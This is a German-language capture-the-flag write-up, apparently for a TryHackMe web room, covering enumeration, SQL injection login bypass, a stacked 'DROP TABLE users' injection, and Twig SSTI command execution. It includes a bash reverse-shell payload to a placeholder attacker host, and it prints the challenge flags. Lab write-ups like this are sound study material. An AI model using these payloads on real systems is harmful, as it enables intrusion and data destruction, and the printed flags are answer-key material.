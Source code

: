 # Thema
Use your injection skills to take control of a web app.

# Vorgehen
## Scannen & Enumeration
### Nmap kontrolle der Offenen Ports via 
```
nmap -sV 10.10.149.236
```
Resultat: 
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
### Gobuster
```
gobuster dir -u "10.10.149.236" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.**txt**
```
Resultat: 
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.149.236
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/flags                (Status: 301) [Size: 314] [--> http://10.10.149.236/flags/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.149.236/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.149.236/js/]
/vendor               (Status: 301) [Size: 315] [--> http://10.10.149.236/vendor/]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.149.236/phpmyadmin/]
/server-status        (Status: 403) [Size: 278]
Progress: 218275 / 218276 (100.00%)
===============================================================
Finished
===============================================================

```

### Anschauen der Pagesource
via 
```
view-source:http://10.10.149.236/
```
 
Feststellung Namen, Nachnamen und mailadresse "Website developed by John Tim - `dev@injectics.thm`"
Feststellung der "login-php" für User der Hauptseite
Feststellung der "adminLogin007.php" für Admins der Site

## Erhaltene Infos
1. Ist ein Webserver mit Apache httpd 2.4.41
2. Es gibt diverse Direcorys in der Website die Vorhanden und teilweise offen sind 
3. Es handelt sich um einen PHP Server 

# Weiteres Vorgehen 
- Kontrolle auf welche Directorys zugriff besteht
	- Zugriff sonst nur auf den phpmyadmin -> Login seite für PHP
- Testen der Email adresse in allen Login portalen mit SQL Injection  
```
 ' OR '1'='1
```

Resultat 
Login und admin login kein Login möglich meldung " Invalid email or password. "
phpmyadmin site "Cannot log in to the MySQL Server" "mysqli_real_connect(): (HY000/1045): Access denied for user 'dev@injectics.thm'@'localhost' (using password: YES)"

Nächster Test auf der phpmyadmin
```
Username:  ' OR '1'='1
Password: ' OR '1'='1
```

Resultat:
 mysqli_real_connect(): (HY000/1045): Access denied for user ' ' OR '1'='1'@'localhost' (using password: YES)


->  Interessante Info Username kann nicht für Injektion genutzt werden Passwort Feld allerdings schon 


# Da Ich nicht weitergekommen bin nachlesen in WriteUp

mein Fehler war in der Enumeration mit gobuster diese hätte ich erneut mit anderer Wordliste und mehreren Parametern machen müssen

```
gobuster dir -u "10.10.149.236" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,js,txt,php,db,json,log -k 2>/dev/null
```

-Resultate des Befehls: 
```


```

Mail.log enthält klare Anmeldedaten
- In `/mail.log` findest du zwei Accounts:
  ```
  superadmin@injectics.thm  | superSecurePasswd101
  dev@injectics.thm         | devPasswd123
  ```

SQLi im Login umgehen → erster Zugriff
- Das Login-Formular auf der Hauptseite filtert Schlüsselwörter wie `or`, `and`, `union`, `'` clientseitig – aber nur lowercase.
- Du umgehst das mit Payloads wie:
  ```
  username=' || 1=1 –-  (oder mit sleep für Zeit-basiert)
  ```
- Damit loggst du dich als „dev“-User ein.

 Zerstörung der `users`-Tabelle über Admin-SQLi
- Auf der Leaderboard-Seite (`edit_leaderboard.php`) kannst du Metadaten (z. B. gold, country) verändern – hier findet sich eine serverseitige SQLi-Lücke.
- Über einen Payload wie:
  ```
  gold=..., country=...; DROP TABLE users;-- -
  ```
  löschst du die gesamte `users`-Tabelle.

Automatische Wiedereinsetzung der Tabelle
- Der Dienst „injecticsService“ erkennt den Ausfall und stellt die Tabelle automatisch wieder her.
- Nach kurzer Wartezeit (1–2 Minuten) kannst du dich mit den Credentials aus `mail.log` als **superadmin** oder **admin** anmelden und bekommst damit **Flag 1**.

 SSTI im Admin-Bereich für RCE → Flag 2
- Im Admin-Dashboard gibt es ein Profil-Update, wo der Name angezeigt wird – und **SSTI** möglich ist (getestet mit `{{7*7}} → 49`).
- Über einen Twig-Trick (`sort('passthru')`) kannst du shell-Befehle ausführen, z. B.:
  ```jinja
  {{ ['bash -c "exec bash -i >& /dev/tcp/ATTACKER/PORT 0>&1"', ""] | sort('passthru') }}
  ```
  → Reverse Shell
- Alternativ kannst du die SSTI nutzen, um direkt Dateien auszulesen:
  ```jinja
  {{ ['cat /var/www/html/flags/XXXX.txt', ""] | sort('passthru') }}
  ```
  → Damit liest du **Flag 2** aus.

Flags & Endergebnis
- **Flag 1** (Admin-Panel): `THM{INJECTICS_ADMIN_PANEL_007}`
- **Flag 2** (Flag-Verzeichnis): `THM{5735172b6c147f4dd649872f73e0fdea}`
 Fazit
1. `/mail.log` → echte Admin-Creds  
2. SQLi → Login als dev  
3. SQLi im Leaderboard → `DROP TABLE users`  
4. Automatisch wiederhergestelltes Admin-Konto → Flag 1  
5. SSTI im Profil → RCE oder Datei-Lesen → Flag 2
